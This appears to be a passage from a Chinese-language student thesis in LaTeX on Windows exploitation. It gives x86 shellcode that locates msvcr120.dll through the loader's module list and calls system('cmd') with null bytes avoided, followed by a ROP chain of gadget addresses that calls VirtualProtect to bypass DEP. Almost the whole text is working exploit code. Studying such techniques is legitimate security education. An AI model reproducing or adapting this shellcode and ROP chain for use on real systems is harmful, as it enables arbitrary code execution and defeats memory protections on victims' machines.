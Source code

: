 \documentclass[bachelor]{thesis-uestc}
\begin{document}
\begin{lstlisting}
	cmp al, 1; // al==1 equal; al==0 not equal
	je MODULE_FOUND;
	mov ebx, [ebx];
	cmp ebx, edx;
	je MODULE_NOT_FOUND; // 循环链表已经遍历完了
	jmp SEARCH_MODULE_LOOP;
MODULE_FOUND:
	mov eax, [ebx + 0x18]; // LDR_MODULE偏移0x18处是模块的线性基地址BaseAddress
_GetSystemFuncEntry:
	mov ebx, eax;
	sub ebx, 0xfff9dec7;
	sub eax, 0xfff7f73e; // 用sub替换add, 使得代码中没有0x00. 加上一个数 <=> 减去这个数的相反数
	//add ebx, 0x62139; // 0x62139是msvcr120.dll中字符串"cmd"的RVA
	//add eax, 0x808c2; // 0x808c2是msvcr120.dll的export address table中记录的system函数的入口RVA
	push ebx;
	call eax; // 获得shell之后就结束了, 不必关注调用结束后的事情
MODULE_NOT_FOUND:
	jmp MODULE_NOT_FOUND; // endless loop
/*********************************************************/
/*                      Data                             */
/*********************************************************/
LIBC_NAME:
	_EMIT 'M';
	_EMIT 'S';
	_EMIT 'V';
	_EMIT 'C';
	_EMIT 'R';
	_EMIT '1';
	_EMIT '2';
	_EMIT '0';
	_EMIT '.';
	_EMIT 'd';
	_EMIT 'l';
	_EMIT 'l';
	_EMIT '$'; // '$'作为结束符, 因为shellcode中不能出现0x00
}
\end{lstlisting}


\section{突破数据执行保护(DEP)}
\subsection{ROP链的构造}
突破DEP的方法是使用ROP链构造VirtualProtect()函数调用，将shellcode所在的栈内存设置为可执行。对WinDbg+mona生成ROP链进行微调，得到：

\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
	0x5a58ed02, // # pop ebp # ret [msvcr120.dll]
	0x5a58ed02, // # skip 4 bytes [msvcr120.dll]
	0x5a582308, // # pop ebx # ret [msvcr120.dll]
	0x00000201, // 0x00000201 -> ebx [msvcr120.dll]
	0x5a58e734, // # pop edx # ret [msvcr120.dll]
	0x00000040, // 0x00000040 -> edx [msvcr120.dll]
	0x5a58ec8c, // # pop ecx # ret [msvcr120.dll]
	0x5a65e000, // &writable location [msvcr120.dll]
	0x5a58f0f3, // # pop edi # ret [msvcr120.dll]
	0x5a58139b, // # ret [msvcr120.dll]
	0x5a58f74a, // # pop esi # ret [msvcr120.dll]
	0x5a58efd7, // # jmp eax [msvcr120.dll]
	0x5a58469c, // # pop eax # ret [msvcr120.dll]
	0x76b743ce, // entry of VirtualProtect() [kernel32.dll]
	0x5a5846a0, // # pushad # ret [msvcr120.dll]
	0x5a5bac78  // # push esp # ret [msvcr120.dll]
\end{lstlisting}
\end{document}
